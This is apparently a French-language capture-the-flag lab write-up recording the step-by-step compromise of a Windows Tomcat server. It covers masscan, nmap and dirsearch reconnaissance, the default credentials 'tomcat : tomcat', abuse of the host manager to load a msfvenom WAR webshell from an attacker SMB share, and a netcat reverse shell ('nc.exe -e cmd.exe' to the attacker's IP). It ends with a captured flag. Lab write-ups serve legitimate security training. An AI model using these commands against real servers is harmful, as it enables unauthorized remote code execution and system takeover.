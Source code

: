  # Step 5

 ## find route

 ```
$ route | grep tun0 
10.8.0.1        10.8.0.37       255.255.255.255 UGH   0      0        0 tun0
10.8.0.37       0.0.0.0         255.255.255.255 UH    0      0        0 tun0
172.16.42.0     10.8.0.37       255.255.255.0   UG    0      0        0 tun0
```

donc scanner sur `172.16.42.0/32`



## Host discovery

```bash
sudo masscan -e tun0 -p22,21,23,80,443,445,139,136,111,U:161,U:162,U:53,1433,3306,53,3389,5432,631 --rate 3000 172.16.42.0/24

Discovered open port 445/tcp on 172.16.42.5                                    
Discovered open port 53/tcp on 172.16.42.5                                     
Discovered open port 445/tcp on 172.16.42.101                                  
Discovered open port 445/tcp on 172.16.42.11                                   
```

---

## 172.16.42.11  

> srv01-intranet

> Windows Server 2016 x86

```bash
sudo masscan -e tun0 -p0-65535,U:0-65535 --rate 1000 172.16.42.11

Discovered open port 8080/tcp on 172.16.42.11          
Discovered open port 445/tcp on 172.16.42.11     

sudo nmap -sT -sV -O -T4 -vvv --version-intensity=8 -sC -p8080,445 172.16.42.11

PORT     STATE SERVICE       REASON  VERSION
445/tcp  open  microsoft-ds? syn-ack
8080/tcp open  http-proxy    syn-ack
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 1113
|     Date: Thu, 11 Jul 2019 11:43:23 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 404 
|     Found</title><style type="text/css">h1 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:22px;} h2 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:16px;} h3 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:14px;} body {font-family:Tahoma,Arial,sans-serif;color:black;background-color:white;} b {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;} p {font-family:Tahoma,Arial,sans-serif;background:white;color:black;font-size:12px;} a {color:black;} a.name {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body>
|   GetRequest: 
|     HTTP/1.1 200 
|     Accept-Ranges: bytes
|     ETag: W/"596-1562160491825"
|     Last-Modified: Wed, 03 Jul 2019 13:28:11 GMT
|     Content-Type: text/html
|     Content-Length: 596
|     Date: Thu, 11 Jul 2019 11:43:23 GMT
|     Connection: close
|     <html>
|     <head>
|     <title>Willy Wonka Wiki</title>
|     </head>
|     <body bgcolor=white>
|     <table border="0">
|     <tr>
|     <td>
|     </td>
|     <td>
|     <h1>Willy Wonka Wiki</h1>
|     </td>
|     </tr>
|     </table>
|     <img src="images/WCHALL.png">
|     </br></br>
|     This Wiki is currently under construction. Few interesting resources:
|     <ul>
|     <li><a href="https://www.gamekult.com/forum/t/dois-je-acheter-la-psp/207478">Business Intelligence</a>
|     <li><a href="infra.jsp">Infrastructure Diagram</a>
|     <li><a href="imagescsa.mp4">About CSA</a>
|     <li><a href="https://www.youtube.com/watch?v=EhF0hfYz0mY">About FBI</a>
|     </ul>
|     </body>
|     </html>
|   HTTPOptions: 
|     HTTP/1.1 200 
|     Allow: GET, HEAD, POST, PUT, DELETE, OPTIONS
|     Content-Length: 0
|     Date: Thu, 11 Jul 2019 11:43:23 GMT
|     Connection: close
|   RTSPRequest: 
|     HTTP/1.1 400 
|     Date: Thu, 11 Jul 2019 11:43:23 GMT
|_    Connection: close
| http-methods: 
|   Supported Methods: GET HEAD POST PUT DELETE OPTIONS
|_  Potentially risky methods: PUT DELETE
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Willy Wonka Wiki

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 30938/tcp): CLEAN (Timeout)
|   Check 2 (port 43825/tcp): CLEAN (Timeout)
|   Check 3 (port 45891/udp): CLEAN (Timeout)
|   Check 4 (port 33171/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2019-07-11 13:43:52
|_  start_date: 1601-01-01 00:09:21
```

### web

```bash
python3 /opt/t/pentest/recona/dirsearch/dirsearch.py -u http://172.16.42.11:8080/ -e do,java,action,db,sql,~,xml,pdf,jsp,php,old,bak,zip,tar,asp,aspx,txt,html,xsl,xslx

[13:55:49] 200 -  330B  - /hello
[13:55:49] 401 -    2KB - /host-manager/html
[13:55:50] 302 -    0B  - /images  ->  /images/
[13:55:50] 200 -  596B  - /index.html
[13:55:52] 302 -    0B  - /manager  ->  /manager/
[13:55:52] 200 -    3B  - /manager/
```

avec la wordlist de tomcat de seclist : https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/tomcat.txt

```bash
python3 /opt/t/pentest/recona/dirsearch/dirsearch.py -u http://172.16.42.11:8080/ -e do,java,action,db,sql,~,xml,pdf,jsp,php,old,bak,zip,tar,asp,aspx,txt,html,xsl,xslx -w ./tomcat.txt    

[15:08:17] 302 -    0B  - /host-manager  ->  /host-manager/
[15:08:17] 401 -    2KB - /host-manager/html/%2A
[15:08:17] 302 -    0B  - /manager  ->  /manager/
```

creds -> tomcat : tomcat

repo de webshell : https://github.com/tennc/webshell

exploitation d'un host manager : https://www.certilience.fr/2019/03/variante-d-exploitation-dun-tomcat-host-manager/

go scaleway pour monter un share, pas en france sinon le fai bloque=> en fait balek parce qu'on est vpn

## connecter le tomcat à soit

* sur le tomcat

```
name : test
aliases : test
app base : \\10.8.0.26\data
```

* chez toi

```
sudo smbserver.py -smb2support -debug -comment "data" data .
```

tu vois de la co qui arrive, tu drop le `bite.war`, généré avec msfvenom et j'ai changé la charge par juste un cmd normal.

## exec le webshell

* dans le /etc/hosts

```
172.16.42.11	maki-lab
```

* tomcat

```
name : maki-lab
aliases : maki-lab
app base : \\10.8.0.26\data
décocher "Manager App", sinon ça va casser les couilles
```

go url : 

```
http://maki-lab:8080/bite/index.jsp?cmd=whoami
```

ET PAF

## reverse shell

tu drop un nc.exe dans le share.

* chez toi

```
rlwrap ncat -klvp 12345
```

* dans le webshell

```
\\10.8.0.26\data\nc.exe -e cmd.exe 10.8.0.26 12345
```

## flag

```
type flag-05.txt
8F30C4422EB4E5D9A2BF7EE44D5098D68314C35BE58E9919417B45FCBEF205C8
```